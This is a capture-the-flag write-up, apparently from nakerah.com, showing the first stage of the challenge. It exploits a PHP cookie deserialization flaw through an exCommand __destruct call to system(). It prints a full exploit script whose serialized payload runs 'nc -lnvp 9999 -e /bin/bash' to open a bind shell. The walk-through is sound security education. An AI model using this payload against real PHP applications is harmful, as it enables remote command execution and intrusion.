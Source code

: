 Peace, mercy and blessings of God 
today we are going to solve an interesting ctf from nakerah nakerha.com
 our goal is to read root's flag file 
 expolit will be devided into two missions first deserilization attack then ret2libc
 so with all that being said; let's right jump in !!
 first we have that static page 
 looking aroung source code nothing interested there so let's nmap it
 as we see we have some other ports 
 22 ssh we dont have any creds and it seems to be updated
 25 smtp is filtered so we maybe come back to it later
 80 http we already checked it
 so lets visit port 8080 and see what behind the scene
 just another blank page (: i got bored so let's gobuster it :XD
 
 so we have /backup file seems to be interesting let's dump it
 
 after downloading the file it's php code so let's analyze it
 class exCommand{
        public function __destruct(){
            system($this->command);
        }
    }
here it creates a exCommand class and use a magic method __destruct then pass the value of command propert to system function
Destructor is automatically called and allows you to perform some operations before destroying an object which will be our attack vector
class Hello{
        private $name;
        private $role;
        private $isSet;
        public function check(){
           $this->isSet=isset($_COOKIE['name']);
        }
        
        }
    }
here creating class Hekko with some private vars and check function to verify if there's a cookie name name 
public function printHello(){
            if($this->isSet){
                echo "<br >" . $_COOKIE['name']."<br /><br /><br />";
                echo "Hello " . $this->name . "<br>";
                echo "your role is " . $this->role . "\n";
                echo "<br ><br ><br >";
            }else{
                echo "good";
            }
another function printHello fisrt verify if there's a property isSet it will print our cookie, say hello to our cookie name and print our role but if not it will just print good

$obj = unserialize($_COOKIE['name']);
$obj->check();
$obj->printHello();
at last here it create an var, assign it's value to our deserialized_cookie passing it to check and printHello functions

so to stay focus here it's deserilization attack and we need to pass our command to exCommand funcion which has that magic method
the problem here is that first with exCommand class we used   a property command without identifying it so in our exploit we will have to pass it to our object and  give it a vlaue
second problem is that we have to bypass that cookie checks so let's write our exploit code
the trick here is if we bypass check function it will hust print some staff and if we try to target our exCommand class it will fail with check function so ...
the trick here is we will create exCommand identify command property with a value (our command) put it inside  Hello calss and selialize all that staff together
<?php

    class exCommand{
        public function __destruct(){
            system($this->command);
        }
    }



 class Hello{
        public $name;
        public $role;
        public $isSet;
        public $dummy;
}


$x = new exCommand;
$x->command = "nc -lnvp 9999 -e /bin/bash";


$y = new Hello;
$y->name = "fady";
$y->role = "hacker";
$y->isSet = 1;
$y->dummy = $x;

print serialize($y);
code analysis:

class exCommand{
   public function __destruct(){
   system($this->command);
    }
}
$x = new exCommand;
$x->command = "nc -lnvp 9999 -e /bin/bash";
here we just crete the same exCommand class, create our object and give command property our target command (bind shell)

$y = new Hello;
$y->name = "fady";
$y->role = "hacker";
$y->isSet = 1;
$y->dummy = $x;

print serialize($y);
creating an oject of Hello class assing some values to properties and what interesting here it that dummy propety we gave it a value of our exCommand object and finally serialize all that staff and here is our final serialized data
7
and let's try connect
8
and voila we get our shell fisrt missin completed successfully


 
